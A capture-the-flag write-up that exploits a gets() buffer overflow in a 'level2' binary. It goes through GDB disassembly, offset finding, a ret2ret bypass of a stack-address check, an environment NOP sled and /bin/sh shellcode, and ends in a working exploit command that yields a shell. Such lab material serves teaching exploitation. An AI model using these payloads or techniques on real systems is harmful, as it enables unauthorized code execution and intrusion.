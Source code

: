 # Level2

First step - testing the program

	$ ./level2
	a
	a

The program print the input

Start it in GDB

	(gdb)$ disas main
	Dump of assembler code for function main:
	   0x0804853f <+0>:		push   ebp
	   0x08048540 <+1>:		mov    ebp,esp
	   0x08048542 <+3>:		and    esp,0xfffffff0
	   0x08048545 <+6>:		call   0x80484d4 <p>
	   0x0804854a <+11>:	leave
	   0x0804854b <+12>:	ret
	End of assembler dump.

The main call a function "p"

	(gdb)$ disas p
	Dump of assembler code for function p:
	   0x080484d4 <+0>:		push   ebp
	   0x080484d5 <+1>:		mov    ebp,esp
	   0x080484d7 <+3>:		sub    esp,0x68
	   0x080484da <+6>:		mov    eax,ds:0x8049860
	   0x080484df <+11>:	mov    DWORD PTR [esp],eax
	   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
	   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
	   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
	   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
	   0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
	   0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
	   0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
	   0x080484fb <+39>:	and    eax,0xb0000000
	   0x08048500 <+44>:	cmp    eax,0xb0000000
	   0x08048505 <+49>:	jne    0x8048527 <p+83>
	   0x08048507 <+51>:	mov    eax,0x8048620
	   0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
	   0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
	   0x08048513 <+63>:	mov    DWORD PTR [esp],eax
	   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
	   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
	   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
	   0x08048527 <+83>:	lea    eax,[ebp-0x4c]
	   0x0804852a <+86>:	mov    DWORD PTR [esp],eax
	   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
	   0x08048532 <+94>:	lea    eax,[ebp-0x4c]
	   0x08048535 <+97>:	mov    DWORD PTR [esp],eax
	   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
	   0x0804853d <+105>:	leave
	   0x0804853e <+106>:	ret
	End of assembler dump.

We can see a `gets()` call. The function gets is dangerous because it's vulnerable to overflow as we can see on the man

**********************************

Let's check the size of the offset for overflow. We will use an alphabetic pattern generated by my script

	(gdb) r
	Starting program: /home/user/level2/level2 
	AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
	AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

	Program received signal SIGSEGV, Segmentation fault.
	0x55555555 in ?? ()

Searching the offset with my script also

	./get_offset.py 55555555                                                                             !
	UUUU => offset = 80

The offset for overwrite EIP is 80. Let's be sure

	$ python -c 'print "a"*80+"BBBB"' > payload

	(gdb) r < /tmp/payload
	Starting program: /home/user/level2/level2 < /tmp/payload
	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaBBBBaaaaaaaaaaaaBBBB

	Program received signal SIGSEGV, Segmentation fault.
	0x42424242 in ?? ()

Perfect. We have the size

**********************************

For the exploit, we can't overwrite and use a stack address, because there is a check in the code

This code check if we try to overwrite the stack. The program quit if we do it

	if ((check & 0xb0000000) == 0xb0000000) {
		printf("(%p)\n", check);
		exit(1);
	}

	0x080484fb <+39>:	and    eax,0xb0000000
	0x08048500 <+44>:	cmp    eax,0xb0000000
	0x08048505 <+49>:	jne    0x8048527 <p+83>

We can use an env variable to store the payload :

	python -c 'print "\x90"*1000+"\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'

For a proper way, we will execute gdb and the binary with

	env -i payload=$(python -c 'print payload') ./binary

This is a trick for bypass the address difference with GDB (it's not a real problem here because our big nopsled), and not write in the real environment

The shellcode is from http://shell-storm.org/shellcode/files/shellcode-219.php. Specialy made for gets() of scanf() exploit, because it's re-open stdin

Now we need to execute this payload using the ret2ret method because there is a check in the code

The Ret2Ret method is overwrite EIP with a ret instruction and put after the address we want. The ret instruction will pop the stack and take the second address. Usefull for bypass this check

We need one of the NOPs address in the env and the address of a ret instruction

Get the environment payload address

Put a breakpoint just before the last return

	(gdb)$ b *main+12
	Breakpoint 1 at 0x804854b

	(gdb)$ r
	Starting program: /home/nico/42/rainfall/level2/Ressources/level2
	...
	Breakpoint 1, 0x0804854b in main ()

Get the address of our env variable that contain the payload

	(gdb)$ x/200xs environ
	....
	0xbffffb9a:	 "exploit=\220\220\220\220\220\220\220\220\220\220\220\220"
	....

The address is "0xbffffb9a"

Get all the addresses and choose one in the nopsled

	(gdb)$ x/200xg 0xbffffb9a
	....
	0xbffffe5a:	0x9090909090909090	0x9090909090909090
	0xbffffe6a:	0x9090909090909090	0x9090909090909090
	0xbffffe7a:	0x9090909090909090	0x9090909090909090
	0xbffffe8a:	0x9090909090909090	0x9090909090909090
	0xbffffe9a:	0x9090909090909090	0x9090909090909090
	0xbffffeaa:	0x9090909090909090	0x9090909090909090
	0xbffffeba:	0x9090909090909090	0x9090909090909090
	0xbffffeca:	0x9090909090909090	0x9090909090909090
	0xbffffeda:	0x9090909090909090	0x9090909090909090
	0xbffffeea:	0x9090909090909090	0x9090909090909090
	0xbffffefa:	0x9090909090909090	0x9090909090909090
	0xbfffff0a:	0x9090909090909090	0x9090909090909090
	....

Let's choose "0xbffffeaa"

We have our environment payload address

Now, get the a ret address, we can take the main ret

	(gdb)$ disas main
	Dump of assembler code for function main:
	   0x0804853f <+0>:		push   %ebp
	   0x08048540 <+1>:		mov    %esp,%ebp
	   0x08048542 <+3>:		and    $0xfffffff0,%esp
	   0x08048545 <+6>:		call   0x80484d4 <p>
	   0x0804854a <+11>:	leave
	   0x0804854b <+12>:	ret
	End of assembler dump.


The address is "0x0804854b"

We can build the exploit. With 80 chars + the ret address for pop and get the env address + env address

	$ python -c 'print "a"*80+"\x4b\x85\x04\x08"+"\xaa\xfe\xff\xbf"' > /tmp/exploit

Try it!

	$ cat /tmp/exploit - | env -i exploit=$(python -c 'print "\x90"*1000+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"') ./level2
	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa>aaaaaaaaaaaa>����
	whoami
	level3

We have a shell!

Script it for reproduice!
